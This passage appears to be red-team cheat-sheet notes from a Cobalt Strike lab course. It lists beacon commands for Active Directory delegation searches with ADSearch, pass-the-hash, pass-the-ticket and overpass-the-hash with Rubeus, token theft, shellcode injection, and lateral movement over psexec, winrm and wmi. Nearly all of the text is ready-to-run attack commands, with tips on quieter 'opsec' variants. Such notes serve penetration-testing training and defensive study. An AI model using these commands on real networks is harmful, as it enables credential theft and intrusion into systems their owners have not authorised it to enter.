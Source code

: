 ```powershell
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=computer)(msds-allowedtodelegateto=*))" --attributes dnshostname,samaccountname,msds-allowedtodelegateto --json

# Additionally, the `--json` parameter can be used to format the output in JSON
```
## User Impersonation
### Pass The Hash Attack
```powershell
beacon> getuid
beacon> ls \\web.dev.cyberbotic.io\c$

# PTH using inbuild method in CS (internally uses Mimikatz)
beacon> pth DEV\jking <hash>

# Find Local Admin Access
beacon> powerpick Find-LocalAdminAccess

beacon> rev2self
```
### Pass The Ticket Attack
```powershell
# Create a sacrificial token with dummy credentials
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:dev.cyberbotic.io /username:bfarmer /password:FakePass123

# Inject the TGT ticket into logon session returned as output of previous command
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /luid:0x798c2c /ticket:doIFuj[...snip...]lDLklP

# OR Combine above 2 steps in one
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:dev.cyberbotic.io /username:bfarmer /password:FakePass123 /ticket:doIFuj[...snip...]lDLklP

beacon> steal_token 4748
```
### OverPass The Hash
```powershell
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:jking /ntlm:<ntlm> /nowrap

# Use aes256 hash for better opsec, along with /domain and /opsec flags (better opsec)
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:jking /aes256:<aes256> /domain:DEV /opsec /nowrap
```
### Token Impersonation & Process Injection
```powershell
beacon> steal_token 4464
beacon> inject 4464 x64 tcp-local
beacon> shinject /path/to/binary
```
## Lateral Movement
```powershell
# using Jump
beacon> jump psexec/psexec64/psexec_psh/winrm/winrm64 ComputerName beacon_listener

# Using remote exec
beacon> remote-exec psexec/winrm/wmi ComputerName <uploaded binary on remote system>

```
